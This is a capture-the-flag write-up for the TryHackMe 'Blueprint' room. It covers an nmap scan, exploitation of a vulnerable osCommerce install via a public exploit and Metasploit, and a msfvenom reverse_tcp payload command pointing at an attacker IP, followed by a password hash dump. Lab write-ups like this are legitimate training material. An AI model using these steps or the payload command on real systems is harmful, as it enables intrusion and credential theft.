 ```yaml
---
title: "TryHackMe - Blueprint"
author: Nasrallah
description: ""
date: 2022-05-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, metasploit, meterpreter, easy, msfvenom]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Blueprint](https://tryhackme.com/room/blueprint) from [TryHackMe](https://tryhackme.com). It's an easy windows machine running a software program with a version vulnerable to remote code execution.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.230.235                                             
Host is up (0.28s latency).                                                                                                                                   
Not shown: 987 closed tcp ports (reset) 
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:              
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.           
|_http-server-header: Microsoft-IIS/7.5                                                                                                                       
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                 
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn:                 
|_  http/1.1                                                                   
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47 
|_Not valid after:  2019-11-08T23:48:47 
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE
49152/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49153/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-05-29T10:06:54
|_  start_date: 2022-05-29T09:57:47
|_clock-skew: mean: -20m02s, deviation: 34m37s, median: -3s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:b2:71:5d:06:29 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-29T11:06:52+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
```

We have a windows machine, running a webserver on port 80 and port 8080, SMB and mysql.

### Web

Let's navigate to the webpage on port 8080.

![](/assets/img/tryhackme/blueprint/1.png)

It's a directory, let's see what it holds.

![](/assets/img/tryhackme/blueprint/2.png)

We see oscommerce with what we assume to be a version number. Let's search for **oscommerce** and see what we can find.

![](/assets/img/tryhackme/blueprint/3.png)

OsCommerce is an online store management software program, and it is vulnerable to remote code execution in this exact version this machine is running.


## **Foothold**

Let's download the exploit and run it.

![](/assets/img/tryhackme/blueprint/4.png)

Great! We got command execution and with elevated privileges.

If we opened up metasploit, we can see that it also has a module for exploiting this service and even getting a reverse shell.

![](/assets/img/tryhackme/blueprint/5.png)

Let's set the necessary parameters up and run the module.

![](/assets/img/tryhackme/blueprint/6.png)

Now let's dump the hashes.

![](/assets/img/tryhackme/blueprint/7.png)

We can't do that because the current meterpreter we're using (php/meterpreter) is not supported. Let's upgrade to **windows/meterpreter**.


## **Shell Stabilization**

First, we need to create an executable using msfvenom with this command.`msfvenom -p windows/meterpreter/reverse_tcp LHOST=Attacker_IP LPORT=1234 -f exe -o shell.exe`

![](/assets/img/tryhackme/blueprint/8.png)

Great. Now we need to setup a listener on metasploit. We use **exploit/multi/handler** for that, and set the options LPORT, LHOST and payload. After that we run the module in the background with `run -j`.

> Press `ctrl + z` to background meterpreter and then select the handler.

![](/assets/img/tryhackme/blueprint/9.png)

Great! Now let's get back to our meterpreter session, and upload the executable.

> You need to start metasploit from the same directory where we created the executable, or specify the full path of the executable:(/path/to/the/executable.exe)

![](/assets/img/tryhackme/blueprint/10.png)

We uploaded the file successfully, now let's run it with the command `execute -f shell.exe`.

![](/assets/img/tryhackme/blueprint/11.png)

Great! We got our session. Now background the old meterpreter session with `ctrl + z` and select the new one, in my case it's session 10: `sessions -i 10`.

Now we can run `hashdump` and get local users hashes.

![](/assets/img/tryhackme/blueprint/12.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
